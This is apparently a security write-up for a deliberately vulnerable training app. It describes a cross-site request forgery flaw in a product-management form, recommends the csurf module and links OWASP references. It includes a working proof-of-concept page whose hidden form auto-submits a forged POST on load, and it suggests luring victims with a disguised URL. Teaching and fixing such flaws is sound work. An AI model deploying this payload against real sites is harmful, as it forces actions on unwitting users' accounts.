 # Cross-site Request Forgery

## CSRF in Add/Edit product

The application is vulnerable to a Cross-sites-Request-Forgery in `Product Management` feature. The application fails to implement anti-CSRF token to prevent forced browsing.

http://127.0.0.1:9090/app/modifyproduct

This issue can be exploited by an attacker by hosting a malicious page like the one below and tricking the victim onto visiting it. The below example will add a new product on behalf of the victim on visiting a crafted URL like `http://youtube.com.xyz.nxd/watch/v=cute-kitten` by the attacker

*Attacker's Webpage*
```html
<html>
    <body onload='document.hidden_form.submit()'>
        <form name="hidden_form" method="POST" action="http://127.0.0.1:9090/app/modifyproduct">
            <input type="hidden" name="name" value="Hacked">
            <input type="hidden" name="code" value="hacked">
            <input type="hidden" name="tags" value="hack">
            <input type="hidden" name="description" value="This is a hacked product">
        </form>
    </body>
</html>
```

**Solution**

CSRF vulnerabilities can be fixed by ensuring anti-CSRF tokens are needed for successful form submission. 

This can be done by using a module like [csurf](https://www.npmjs.com/package/csurf), and can save time needed to correctly implement your own logic.

**Reference**

- https://www.owasp.org/index.php/Cross-Site_Request_Forgery_(CSRF)
- https://github.com/expressjs/csurf
